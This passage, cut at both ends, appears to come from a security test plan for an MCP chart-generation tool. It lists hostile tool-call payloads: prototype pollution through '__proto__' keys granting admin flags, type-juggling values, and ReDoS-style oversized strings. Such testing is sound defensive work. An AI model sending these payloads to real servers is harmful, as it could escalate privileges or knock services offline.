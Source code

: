 ```json
    "identifier": 1,
    "use_cache": true
  }
}
```

## Type Confusion Exploits

### 1. Prototype Pollution via Type Confusion
```json
# Test Case: Attempt prototype pollution through config
mcp__mcp-server__generate_chart {
  "request": {
    "dataset_id": 1,
    "config": {
      "chart_type": "table",
      "columns": [{"name": "test"}],
      "__proto__": {
        "isAdmin": true,
        "canDelete": true
      },
      "constructor": {
        "prototype": {
          "isAuthorized": true
        }
      }
    }
  }
}
```

### 2. Type Juggling Attacks
```json
# Test Case: Exploit weak type comparison
mcp__mcp-server__generate_chart {
  "request": {
    "dataset_id": "1e0",  # Scientific notation
    "config": {
      "chart_type": "table",
      "columns": [{"name": "test"}]
    },
    "cache_timeout": "0x10",  # Hexadecimal
    "save_chart": "true"  # String instead of boolean
  }
}
```

## Resource Exhaustion Attacks

### 1. Algorithmic Complexity Attacks
```json
# Test Case: Regex DoS (ReDoS)
mcp__mcp-server__generate_chart {
  "request": {
    "dataset_id": 1,
    "config": {
      "chart_type": "table",
      "columns": [
        {"name": "a" + "a".repeat(100) + "!", "label": "ReDoS Test"}
      ],
      "filters": [
        {"column": "description", "op": "=", "value": "x" + "x".repeat(1000) + "!"}
```